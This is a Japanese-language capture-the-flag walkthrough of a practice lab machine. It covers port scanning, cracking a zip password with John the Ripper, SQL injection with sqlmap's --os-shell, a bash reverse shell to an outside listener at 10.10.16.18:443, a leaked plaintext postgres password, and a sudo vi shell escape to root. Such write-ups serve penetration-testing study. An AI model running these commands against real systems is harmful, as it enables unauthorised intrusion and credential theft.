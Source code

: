 # 1.Port Scan
ip=10.129.160.207
nmap -sC -sV $ip

![4cd671fbf64e0a60206bd083b22d6718.png](../_resources/4cd671fbf64e0a60206bd083b22d6718.png)

# 2.FTP Login
nmapから得た情報を使いFTPサーバにログインする。
backup.zipを確認。

ftp $ip

![0246dd1b5cd894512e6f1b007b974e5b.png](../_resources/0246dd1b5cd894512e6f1b007b974e5b.png)

# 3. Zip2john

backup.zupのhase値を出力

`zip2john backup.zip > hashes`

![4bc6747c4aff6f97108d51695c988b12.png](../_resources/4bc6747c4aff6f97108d51695c988b12.png)

John the Ripperを使いパスワードを解析

`cat hashes`

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes`

![1d9b7c1bca052b9fccd0000ff47b016d.png](../_resources/1d9b7c1bca052b9fccd0000ff47b016d.png)

中身を確認
ユーザネームとパスワードを発見

cat index.php

![711c6d060e37349d300d6438d860a12c.png](../_resources/711c6d060e37349d300d6438d860a12c.png)

使用できるハッシュ形式を確認。

`hashid 2cb42f8734ea607eefed3b70af13bbd3`  

![ccfe9b2fd0886cca220012aa78c8163a.png](../_resources/ccfe9b2fd0886cca220012aa78c8163a.png)

Web site上のadminユーザのパスワードを確認

![7683f18cc4107f0a07daef542ddfde42.png](../_resources/7683f18cc4107f0a07daef542ddfde42.png)

# 4.Web site login

Web siteにログイン

![f961fa5da593059b9107e4b21a8f3c22.png](../_resources/f961fa5da593059b9107e4b21a8f3c22.png)

![e659228b8fdb3272ed3bc31d6e770665.png](../_resources/e659228b8fdb3272ed3bc31d6e770665.png)

cookie editorを使いcookieを確認

![f1809a694fdb54b039c6f6ab3366c8d7.png](../_resources/f1809a694fdb54b039c6f6ab3366c8d7.png)


# 5. Sql map

sqlmap を使い対象websiteへのSQLインジェクションの脆弱性を確認。

`sqlmap -u 'http://$ip/dashboard.php?search=any+query' --
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"`

![3ffe23ca967636a8f7c857cf5d89af44.png](../_resources/3ffe23ca967636a8f7c857cf5d89af44.png)

sql mapを使い --os-shell で接続

`sqlmap --os-shell -u 'http://$ip/dashboard.php?search=any+query' --cookie="PHPSESSID=js7su4b1p3lq9u0q2qqvtmj4ej"`      

os-shellからバッシュを使いローカルPCへ接続する

`bash -c "bash -i >& /dev/tcp/10.10.16.18/443 0>&1"`

![6471f2c462bdc3fb81444e1af2f84bda.png](../_resources/6471f2c462bdc3fb81444e1af2f84bda.png)

`sudo nc -lvnp 443`

![e5e48a5f2b08f760cd0c8cababb8779e.png](../_resources/e5e48a5f2b08f760cd0c8cababb8779e.png)

directory一覧を確認

ls

![d5332d259e2f3397810deb91b57d6034.png](../_resources/d5332d259e2f3397810deb91b57d6034.png)

dashboard.php からuser名とpasswordを取得

cat dashboard.php

user:postgres

password:P@s5w0rd!

![a5efba060492f372c54f32d70de2195e.png](../_resources/a5efba060492f372c54f32d70de2195e.png)

# 6.SSH

SSHで接続

![1fbb3355dc0cec5994e1c08cdf6688ec.png](../_resources/1fbb3355dc0cec5994e1c08cdf6688ec.png)

root権限で実行できるコマンドを確認

sudo -l

![7a77beeca06ae8e3f44b1cb3e1ee9ede.png](../_resources/7a77beeca06ae8e3f44b1cb3e1ee9ede.png)

コマンド実行

参考URL:https://gtfobins.github.io/gtfobins/vi/#sudo

vimはsudoで事項した場合管理者権限で実行できる。

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

![c92eae19ad9a1741b592de5d03b2d76e.png](../_resources/c92eae19ad9a1741b592de5d03b2d76e.png)

shellを実行

vi
:set shell=/bin/sh
:shell

![1ede944c88255c2a14fa095e141f455d.png](../_resources/1ede944c88255c2a14fa095e141f455d.png)


![977c027713fcf1b3fb34eabf68dd0bb8.png](../_resources/977c027713fcf1b3fb34eabf68dd0bb8.png)

# 7.flag get

![f0900b4652123904532d6b87f56a7909.png](../_resources/f0900b4652123904532d6b87f56a7909.png)
